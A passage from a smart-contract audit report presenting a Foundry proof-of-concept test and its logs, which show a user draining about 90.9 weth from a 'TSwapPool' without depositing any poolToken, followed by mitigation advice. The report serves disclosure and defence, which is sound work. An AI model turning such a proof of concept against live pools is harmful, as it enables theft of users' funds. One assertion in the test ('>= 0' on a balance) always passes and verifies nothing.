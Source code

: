 ```solidity
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        vm.startPrank(user);
        poolToken.approve(address(pool), 10e18);

        pool.swapExactInput(poolToken, 10e18, weth, 0, uint64(block.timestamp));

        assert(poolToken.balanceOf(address(pool)) == 100e18); // Test to verify that no poolToken was added to the pool, meaning no transfer from user was done
        console.logUint(poolToken.balanceOf(address(pool)));
        assert(weth.balanceOf(user) >= 0); // Test for receiving tokens you shouldn't receive (stolen funds)
        console.logUint(weth.balanceOf(address(pool)));
    }

}

$ forge test -vv

Running 1 test for test/unit/Modified_TSwapPool.t.sol:TSwapPoolTest
[PASS] testDepositSwap() (gas: 220432)

Logs:
  100000000000000000000 <--- The pool didn't receive any poolToken (before : 100e18, after : 100e18, should be 110e18)
  90933891061198508685 <--- User received weth without spending any fund

Test result: ok. 1 passed; 0 failed; finished in 2.43ms
```
## Impact

Steal Weth from the Pool. Loss of funds.

## Tools Used

Foundry for POC

## Recommendations

Solution to mitigate :
You should verify the balance of the inputToken after the supposedly transfer before executing the transfer of the outputToken.
Or whitelist tokens for the pool.
## <a id='L-04'></a>L-04. Hardcoded decimal value leads to incorrect conversion when ERC20 does not use 18 decimals.
